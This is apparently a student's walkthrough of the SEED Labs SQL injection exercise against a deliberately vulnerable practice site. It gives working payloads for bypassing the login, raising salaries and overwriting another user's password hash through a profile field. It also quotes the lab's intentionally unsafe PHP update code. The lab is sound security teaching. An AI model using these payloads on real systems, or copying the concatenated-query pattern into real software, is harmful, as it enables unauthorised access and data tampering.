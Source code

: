 # SEED-SQL-Injection-Lab-Attack

Title	Author	Date

Seed Lab SQL Injection Attack	Munazza Haq	28-10-2021

Task 1

Login MYSQL:

mysql -u root -pseedubuntu

mysql> use Users;

mysql> show tables;

Use Such a SQL Query:

select * from credential where Name = 'Alice';

Task 2

Task 2.1

•	USERNAME: "Admin' #"


•	PASSWORD: "***" whatever the password was

It will result in a SQL Query as:

SELECT id, name, eid, salary, birth, ssn, address, email,

nickname, Password

FROM credential

WHERE name= 'Admin' #' and Password='***'

Then statement after # will bi regarded as comments. So we can login in as Admin.

Task 2.2

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'

It will return a bunch of htmlcode. When exporting outputs to file by > temp.htmland open it

Task 2.3

We neeed to delete such a statement to append a row to current database:

DELETE credential where name='ted';

So constructed:

•	USERNAME: " '1=1; DELETE credential where name='ted';#"

•	PASSWORD: " " (Remain Blank)

It fails and alerts with a syntax error:

Because in PHP's mysqli extension, which invokes mysqli::query API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.

Task 3

It's hard to find the navigation buttons on this website

(www.SeedLabSQLInjection.com).

In order to edit the profile, please log in and then jump to the link address:

http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by Hand.

Task 3.1

Log in with Alice's username and password, enter

http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Modify Phone Number as ', Salary=500000 and save

Task 3.2

Log in with username Boby' # and arbitrary password, open his profile edit page.

Fill in with:

Phone Number: ', Salary=1

And keep other properties unchanged. Submit the modification.

Now, you can see:

Screen shoot is in SQL Injection Folder

Log-in as Alice

Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.

We should change the Phone Number as

', Salary=1 where name='Boby' #

Task 3.3

Of course, the simplest approach is to log-in as Boby like Task 3.2 and change the password.

If we must do all things and keep log-in with Alice's own account. We might face such an issue:

According to code below in unsafe_edit_backend.php, if Password is to be updated, the session's pwd will be updated first, which makes our user authentication invalid 
immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.

$conn = getDB();

// Don't do this, this is not safe against SQL injection attack

$sql="";

if($input_pwd!=''){

// In case password field is not empty.

$hashed_ = sha1($input_pwd);

//Update the password stored in the session.

$_SESSION['pwd']=$hashed_pwd;

$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where 

ID=$id;";

}else{

// if passowrd field is empty.

$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";

}

$conn->query($sql);

$conn->close();

header("Location: unsafe_home.php");

exit();
We should do all things in Phone Number field.

Assume we want to change Boby's password as tedwashere. First, we should get SHA1 value of our new password via some online tool as

1b3263246794fe4094be7ae99e21b34454d9676f

Then construct Phone Number as:

', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
and save. Now, the change works. You can log in with username Boby and password tedwashere.
